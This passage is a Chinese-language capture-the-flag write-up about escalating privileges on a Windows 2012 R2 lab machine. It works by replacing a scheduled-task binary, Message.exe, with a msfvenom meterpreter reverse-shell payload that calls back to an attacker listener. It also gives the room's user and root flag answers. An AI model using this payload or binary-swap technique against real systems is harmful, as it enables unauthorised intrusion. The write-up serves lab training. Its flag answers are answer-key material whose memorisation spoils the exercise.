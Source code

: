 开启msf上的权限

![image-20240307202304366](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403072023423.png)

### What is the OS version of this windows machine?

Windows 2012 R2 (6.3 Build 9600)

### What is the name of the abnormal *service* running?

拿到普通用户权限后，要准备提权。如果是msf，那么可以考虑使用msf内置的一些自动化工具，它会自动找到存在问题、可利用的服务等，第二种方式就是自己手动寻找。比较推荐第二种方法，更灵活、全面。

首先查看下进程信息：

![image-20240308111402489](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403081114584.png)

红框中的进程比较值得关注，因为这些都不是系统常规进程，尤其是还有一个可能和计划任务有关。去`C:\Program Files (x86)\SystemScheduler`看下：

![image-20240308111603175](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403081116284.png)

有个`Events`，看下里面：

![image-20240308112353620](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403081123723.png)

`Message.exe`进程是管理员权限运行的，而且是每分钟执行一次，那我们就可以考虑用它来进行提权了。

这里的问题答案是`WindowsScheduler`。

### What is the name of the binary you're supposed to exploit? 

`Message.exe`

### What is the user flag (on Jeffs Desktop)?

提权思路：直接替换`Message.exe`程序，因为是计划任务会自动启动该程序，那么就可以使用我们自己的payload来替换掉这个程序，这样在下次调用时，就会执行我们的payload，而且权限是Administartor权限：

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.124.22 LPORT=4446 -e x86/shikata_ga_nai -f exe -o Message.exe
```

在kali上进行监听即可:

![image-20240308113512569](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403081135679.png)

拿到管理员权限，直接去读取对应的文件即可：

```SHELL
759bd8af507517bcfaede78a21a73e39
```

### What is the root flag?

```SHELL
7e13d97f05f7ceb9881a3eb3d78d3e72
```
